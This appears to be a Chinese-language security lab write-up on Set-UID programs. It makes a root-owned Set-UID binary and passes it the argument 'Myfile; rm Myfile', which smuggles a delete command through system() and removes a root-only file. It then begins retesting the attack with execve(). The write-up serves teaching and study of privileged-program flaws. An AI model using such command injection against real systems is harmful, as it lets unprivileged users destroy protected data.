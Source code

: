 > 步骤 1：编译上述程序，使其所有者 root 目录，并将其更改为 SET-UID 程序。程序将使用系统()调用该命令。如果你是鲍勃，你能损害系统的完整性吗？ 例如，您能删除对您不可写的文件吗？

```bash
gcc demo8.c -o task8.out
chown root:root task8.out
chmod 4775 task8.out
ls -l task8.out
```

![image-20220319192352889](EnvironmentVariableandSet-UIDProgram/image-20220319192352889.png)

新建一个名为 Myfile 的文件，并设置其权限为仅 root 用户可读、写、 执行。

```bash
touch Myfile
chmod u=rwx,g=---,o=--- Myfile
ls -l Myfile
```

![image-20220319192725777](EnvironmentVariableandSet-UIDProgram/image-20220319192725777.png)

根据书上 P16，为程序输入一个字符串“`Myfile；rm Myfile`”即可删除 Myfile 文件 

```bash
./task8.out "Myfile; rm Myfile"
```

![image-20220319193904752](EnvironmentVariableandSet-UIDProgram/image-20220319193904752.png)

> 步骤 2：注释出system(command)语句，并取消注释 execve()语句；程序将使用 execve()调用该命令。 编译程序，并使其 Set-UID(由 root 拥有)。 步骤 1 中的攻击仍然有效吗？ 请描述并解释你的观察。

文件修改后重新编译

```bash
sudo su
gcc demo8.c -o task8.out
chown root:root task8.out
chmod 4775 task8.out
ls -l task8.out
```
